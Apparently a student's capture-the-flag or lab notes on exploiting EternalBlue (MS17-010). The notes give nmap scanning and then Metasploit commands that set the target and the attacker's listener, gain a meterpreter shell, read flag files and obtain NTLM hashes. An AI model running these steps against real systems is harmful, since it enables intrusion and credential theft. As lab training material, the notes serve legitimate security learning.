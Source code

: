 ```yaml
---
title: 6. Exploiting Eternal Blue (MS17-010)
updated: 2023-01-21T22:29:27.0000000+04:00
created: 2023-01-21T21:56:30.0000000+04:00
---
```


6\. Exploiting Eternal Blue (MS17-010)
Saturday, January 21, 2023
9:56 PM
1.  Perform nmap scan to identify open ports and services running

![image1](image1-213.png)

1.  Identify that it is exploitable by eternal blue
2.  Use Metasploit Framework to exploit Eternal Blue
3.  In terminal type the following:

- msfconsole
- search ms17-010
- use 0
- show options
- set RHOSTS MachineIP
- set LHOSTS Tun0/AttackerIP
- run/exploit

![image2](image2-94.png)

4.  If successful you will get a meterpreter shell
5.  To get the necessary flags use the below commands

- getuid
- Shell

- **CD C:\Users\Administrator\Desktop**

![image3](image3-61.png)

- **CD C:\Users\Ted\Desktop**

![image4](image4-41.png)

6.  To get the NTLM hashes

![image5](image5-28.png)

